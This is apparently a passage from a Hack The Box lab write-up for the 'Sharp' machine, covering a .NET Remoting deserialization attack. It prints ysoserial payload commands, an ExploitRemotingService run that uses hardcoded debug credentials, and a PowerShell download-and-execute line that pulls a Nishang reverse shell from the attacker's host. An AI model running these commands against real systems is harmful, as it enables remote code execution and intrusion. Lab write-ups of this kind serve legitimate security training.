 Build it 
![Desktop View]({{ "/assets/img/htb-machines/sharp/24.png" | relative_url }})

Also, ysoserial is needed download the compiled version for windows

Lets generate payload first I'll try to ping my own system to check if the binary is working or not. 

**Payload**
```cmd
λ ysoserial.exe -f BinaryFormatter -o base64
-g TypeConfuseDelegate -c "ping -n 5 10.10.14.156"

```
![Desktop View]({{ "/assets/img/htb-machines/sharp/25.png" | relative_url }})

run the compiled binary

```cmd

.\ExploitRemotingService.exe -s
tcp://10.10.10.219:8888/SecretSharpDebugApplicat
--user=debug --pass="SharpApplicationDebugUserPassword123!" -s tcp://10.10.10.219:8888/SecretSharpDebugApplicat
raw ##Output of ysoserial

```

Everything is mentioned in articles 

I got some response in wireshark

![Desktop View]({{ "/assets/img/htb-machines/sharp/26.png" | relative_url }})

Now i can put reverse shell in it ysoserial payload. I will use Nishang reverse shell download it. [link](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Lets use this payload to deliver and execute our shell
start netcat listener and python server payload to execute and download shell [link](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

Let's generate payload for shell 
```cmd
λ
ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell IEX(New-ObjectNet.WebClient).downloadString('http://yourip:80/shell-name.ps1')"

```

start nc listener now

![Desktop View]({{ "/assets/img/htb-machines/sharp/27.png"  | relative_url }})

start python server too

![Desktop View]({{ "/assets/img/htb-machines/sharp/28.png" |realtive_url }})
